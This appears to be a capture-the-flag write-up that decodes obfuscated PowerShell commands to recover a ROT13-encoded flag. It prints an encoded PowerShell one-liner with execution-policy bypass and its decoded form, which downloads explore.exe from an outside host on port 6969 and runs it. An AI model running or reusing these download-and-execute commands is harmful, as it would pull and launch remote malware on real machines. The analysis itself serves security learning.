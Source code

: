 ```php
powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7AA==
```

Decoding the above base64 string yields `Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe;`

Afterwards, I found another segment. 
```php
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```
Decode base64: 
`Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'`

`gurl_jnag_gurve` looks quite similar to a flag :)), I used ChatGPT and found out it's ROT13 encoded :))), guessing until death!!!

![](/image/chall7_7.png)

